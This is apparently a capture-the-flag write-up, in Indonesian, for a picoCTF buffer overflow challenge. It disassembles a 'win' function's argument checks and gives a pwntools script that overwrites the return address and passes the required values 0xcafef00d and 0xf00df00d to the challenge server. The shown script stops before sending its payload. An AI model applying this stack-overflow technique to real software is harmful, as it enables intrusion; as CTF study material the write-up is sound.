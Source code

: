 ![](Pasted%20image%2020220424180717.png)
Dilihat dari fungsi "win" diata, bahwa flag masih belum bisa dilihat karena adanya if statement pada fungsi "win" yang menghalangi perintah "printf(buf);" untuk berjalan dan menampikan flag-nya.
Sekarang kita akan mencoba untuk men-disassemble fungsin "win".
```sh
disassemble win
```

```python
  0x0804930c <+118>:   cmp    DWORD PTR [ebp+0x8],0xcafef00d  
  0x08049313 <+125>:   jne    0x804932f <win+153>  
  0x08049315 <+127>:   cmp    DWORD PTR [ebp+0xc],0xf00df00d
```

"cmp" pada assembly di atas berfungsi untuk men-compare antara address ebp+0x8 dengan hex "0xcafef00d".
sama juga yang terjadi pada address "win+127", cmp mencompare address ebp+0xc dengan hex "0xf00df00d".

```python
import struct
from pwn import *

winAddress = 0x08049296

ebx = b"AAAA"
ebp = b"AAAA"

eip = struct.pack('<I', winAddress)
payload = b"AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ"+ebx+ebp+eip

ebpPlus0x8 = p32(0xcafef00d)
ebpPlus0xc = p32(0xf00df00d)
payload += b"AAAA"+ebpPlus0x8+ebpPlus0xc

p = process("/home/wowon/Downloads/vuln", stdout=process.PTY, stdin=process.PTY, stderr=process.PTY)
p = remote("saturn.picoctf.net", 50987)
# We receive the prompt with a new line
output = p.recvline()
print(output.decode())

```
